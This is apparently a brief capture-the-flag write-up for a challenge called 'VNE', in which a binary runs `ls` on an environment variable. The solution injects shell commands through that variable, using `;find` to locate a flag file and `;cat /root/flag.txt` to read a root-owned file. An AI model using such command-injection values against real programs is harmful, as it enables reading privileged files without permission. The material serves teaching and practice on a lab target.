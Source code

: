 # VNE

The binary seems to execute `ls $SECRET_DIR`

```shell
env -i SECRET_DIR='-R / | grep -i "flag"' ./bin 
```

There's a `flag.txt`, let's find it:

```shell
env -i SECRET_DIR='; find / -name "flag.txt"' ./bin 
```

It is located at `/root/flag.txt`

```shell
env -i SECRET_DIR=';cat /root/flag.txt' ./bin 
```
